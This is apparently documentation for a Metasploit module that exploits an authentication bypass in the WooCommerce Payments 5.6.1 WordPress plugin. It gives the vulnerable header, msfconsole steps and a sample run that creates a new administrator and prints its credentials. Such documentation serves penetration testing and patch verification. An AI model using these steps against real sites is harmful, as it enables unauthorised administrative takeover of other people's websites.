 ## Vulnerable Application

WooCommerce-Payments plugin for Wordpress contains an authentication bypass by specifing a valid user ID number
within the `X-WCPAY-PLATFORM-CHECKOUT-USER` header.  With this authentication bypass, a user can then use the API
to create a new user with administartive privileges IF the user ID selected was also an administrator.

### Install

Download, install, and Activate [woocomerce-payments](https://downloads.wordpress.org/plugin/woocommerce-payments.5.6.1.zip)

No configuration is required, and WooCommerce itself is not required.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_woocommerce_payments_add_user`
1. Do: `set username [username]`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a new administrator created and the credentials.

## Options

### USERNAME

The username to create. Default is `msfadmin`.

### PASSWORD

The password for the user. Default is to create a random one.

### EMAIL

The email address for the user. Default is to create a random one.

### ADMINID

The user ID number for an administrator. Defaults to `1`

## Scenarios

### VWooCommerce Payments 5.6.1 on Wordpress 6.2.2

```
msf6 > use auxiliary/scanner/http/wp_woocommerce_payments_add_user 
msf6 auxiliary(scanner/http/wp_woocommerce_add_user) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_woocommerce_add_user) > set username h00die
username => h00die
msf6 auxiliary(scanner/http/wp_woocommerce_add_user) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_woocommerce_add_user) > exploit
[*] Running module against 1.1.1.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/woocommerce-payments/readme.txt
[*] Found version 5.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to create administrator -> h00die:lWqD3BOer3AFZ (willie.miller@iwuxphff.qiawqio9t.gov)
[+] User was created successfully
[*] Auxiliary module execution completed
```
